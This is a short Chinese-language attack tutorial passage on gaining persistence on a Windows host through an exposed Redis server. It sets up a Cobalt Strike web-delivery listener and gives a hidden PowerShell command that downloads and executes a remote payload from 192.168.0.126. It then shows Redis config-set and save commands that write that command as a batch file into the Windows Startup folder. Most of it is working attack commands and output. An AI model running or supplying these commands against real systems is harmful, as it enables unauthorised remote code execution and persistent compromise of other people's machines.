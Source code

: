 ### 启动项

攻击方法与写入Linux启动项相似

<a-checkbox checked>需要高权限账户</a-checkbox></br>

<a-checkbox checked>Windows 启动项目录为:</a-checkbox></br>

<a-checkbox checked>**C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/**</a-checkbox></br>

<a-checkbox checked>**C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp**</a-checkbox></br>



首先创建 CobaltStrike监听

<a-checkbox checked>**Attacks -> Web Drive-By -> Script Web Delivery**</a-checkbox></br>

![img](../../../.vuepress/public/img/1628610432546-2e313488-1ab1-42f2-bf37-fb074693c30a-20220415151326919.png)

生成 Powershell 语句

```php
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))"
```

 执行Redis命令写入语句

```php
192.168.0.123:6379> config set dir "C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
OK
192.168.0.123:6379> config set dbfilename cmd.bat
OK
192.168.0.123:6379> set x "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))\"\r\n\r\n"
OK
192.168.0.123:6379> save
OK
```
